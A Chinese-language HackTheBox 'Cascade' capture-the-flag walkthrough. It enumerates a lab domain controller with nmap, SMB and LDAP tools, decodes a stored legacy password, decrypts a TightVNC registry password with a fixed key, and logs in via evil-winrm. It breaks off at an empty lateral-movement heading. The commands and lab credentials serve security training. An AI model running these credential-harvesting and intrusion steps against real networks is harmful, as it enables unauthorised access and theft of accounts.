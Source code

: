 ```yaml
---
title: "HTB Cascade"
date: 2024-04-20T00:42:39+08:00
description: HackTheBox Cascade Walkthrough
math: false
tags: [
    "Windows",
    "Active Directory",
    "LDAP",
    "Kerberos",
    "SMB",
    ".NET",
    "Reverse Engineering",
    "TightVNC",
]
categories: [
    "HackTheBox"
]
draft: true
---
```


[![20240421144458](https://raw.githubusercontent.com/iselt/ImageBed/main/20240421144458.png)](https://app.hackthebox.com/machines/235)

## nmap 枚举

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.182 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.182
```

```txt
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-18 09:02:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

389, 636, 3268, 3269 端口是 LDAP 端口，这台主机大概率是一台域控主机。且通过 nmap 默认脚本可知域名为 cascade.local

## 尝试 smb 枚举

优先查看smb匿名登录权限

匿名登录smb，查看共享文件夹（Sharename）

```bash
smbclient -L 10.10.10.182
```

```txt
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.182 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

无法获取信息

## LDAP 枚举

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap>

```bash
# 简单的LDAP枚举
nmap -p 389 --script ldap-rootdse 10.10.10.182
```

```txt
...
dnsHostName: CASC-DC1.cascade.local
|       ldapServiceName: cascade.local:casc-dc1$@CASCADE.LOCAL
|       serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
...
```

通过 [`windapsearch`](https://github.com/ropnop/go-windapsearch) 输出LDAP的所有属性

```bash
# 输出所有用户属性
./windapsearch --dc 10.10.10.182 --full -m users
```

```txt
...
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
cascadeLegacyPwd: clk0bjVldmE=
...
```

用户描述字段中似乎没有任何密码，因此我们可以开始检查其他用户属性。用户 r.thompson 的一个属性叫做 cascadeLegacyPwd ，其中包含一个 Base64 编码字符串。解码之后使用 kerbrute 测试，发现就是他的密码。

```bash
kerbrute passwordspray --dc 10.10.10.182 -d cascade.local r.thompson rY4n5eva
```

## 利用 r.thompson 的账户凭证

- 尝试powershell remoting，但是失败

```bash
evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva
```

- 登录 smb

```bash
# 查看共享权限
smbmap -H 10.10.10.182 -u r.thompson -p 'rY4n5eva'
```

```txt
[+] IP: 10.10.10.182:445   Status: Authenticated
        Disk               Permissions     Comment
        ----               -----------     -------
        ADMIN$             NO ACCESS       Remote Admin
        Audit$             NO ACCESS
        C$                 NO ACCESS       Default share
        Data               READ ONLY
        IPC$               NO ACCESS       Remote IPC
        NETLOGON           READ ONLY       Logon server share
        print$             READ ONLY       Printer Drivers
        SYSVOL             READ ONLY       Logon server share
```

```bash
# 登录
smbclient \\\\10.10.10.182\\Data -U r.thompson
```

```txt
smb: \IT\Email Archives\> get Meeting_Notes_June_2018.html
```

查看下载的html文件

```bash
cat Meeting_Notes_June_2018.html
```

```html
...
We will be using a temporary account to perform all tasks related to the network
migration and this account will be deleted at the end of 2018 once the migration
is complete. This will allow us to identify actions related to the migration in
security logs etc. Username is TempAdmin (password is the same as the normal
admin account password).
...
```

获得信息：TempAdmin账户的密码与默认管理员账户的密码相同

下载其他敏感文件

```txt
smb: \IT\Logs\Ark AD Recycle Bin\> get ArkAdRecycleBin.log
smb: \IT\Logs\DCs\> get dcdiag.log
```

ArkAdRecycleBin.log 包含了一个名为 ARK AD RECYCLE BIN MANAGER 的程序的文本日志。

```bash
cat ArkAdRecycleBin.log
```

```txt
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

日志告诉我们程序正在 ArkSvc 的上下文中运行，并且 TempAdmin 账户已被移动到回收站。

最后，Temp 包含了用户 r.thompson 和 s.smith 的文件夹。在 s.smith 的文件夹中可以找到 VNC Install.reg 文件。这似乎是 TightVNC 的注册表设置备份，一个桌面远程控制程序。

```txt
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
```

```bash
cat "VNC Install.reg"
```

```txt
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
...
```

## TightVNC 注册表密码解密

<https://github.com/frizb/PasswordDecrypts>

```bash
$> msfconsole

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
 => "sT333ve2"
```

获得 s.smith 的 TightVNC 密码：sT333ve2

## Get Shell

使用 `windapsearch` 可以 `s.smith` 账户具有远程管理的 `CN`

因此可以使用 `evil-winrm` 登录

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

在 `C:\Users\s.smith\Desktop` 下找到 `user.txt`

## Lateral Movement

## 横向移动
